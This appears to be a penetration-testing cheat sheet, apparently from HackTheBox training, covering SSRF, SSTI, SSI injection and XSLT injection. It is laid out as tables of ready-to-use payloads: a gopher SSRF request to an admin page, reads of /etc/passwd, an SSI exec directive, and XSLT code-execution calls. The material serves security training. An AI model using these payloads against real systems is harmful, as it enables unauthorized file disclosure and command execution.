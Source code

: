 ## SSRF

|**Exploitation**||
|---|---|
||internal portscan by accessing ports on localhost|
||accessing restricted endpoints|
|**Protocols**||
||`http://127.0.0.1/`|
||`file:///etc/passwd`|
||`gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin`|

## SSTI

|**Exploitation**||
|---|---|
||Templating Engines are used to dynamically generate content|
|**Test String**||
||`${{<%[%'"}}%\.`|

## SSI Injection - Directives

|Print variables|`<!--#printenv -->`|
|---|---|
|Change config|`<!--#config errmsg="Error!" -->`|
|Print specific variable|`<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->`|
|Execute command|`<!--#exec cmd="whoami" -->`|
|Include web file|`<!--#include virtual="index.html" -->`|

## XSLT Injection

### Elements

|`<xsl:template>`|This element indicates an XSL template. It can contain a `match` attribute that contains a path in the XML-document that the template applies to|
|---|---|
|`<xsl:value-of>`|This element extracts the value of the XML node specified in the `select` attribute|
|`<xsl:for-each>`|This elements enables looping over all XML nodes specified in the `select` attribute|
|`<xsl:sort>`|This element specifies the node to sort elements in a for loop by in the `select` argument. Additionally, a sort order may be specified in the `order` argument|
|`<xsl:if>`|This element can be used to test for conditions on a node. The condition is specified in the `test` argument|

### Injection Payloads

|**Information Disclosure**||
|---|---|
||`<xsl:value-of select="system-property('xsl:version')" />`|
||`<xsl:value-of select="system-property('xsl:vendor')" />`|
||`<xsl:value-of select="system-property('xsl:vendor-url')" />`|
||`<xsl:value-of select="system-property('xsl:product-name')" />`|
||`<xsl:value-of select="system-property('xsl:product-version')" />`|
|**LFI**||
||`<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`|
||`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`|
|**RCE**||
||`<xsl:value-of select="php:function('system','id')" />`|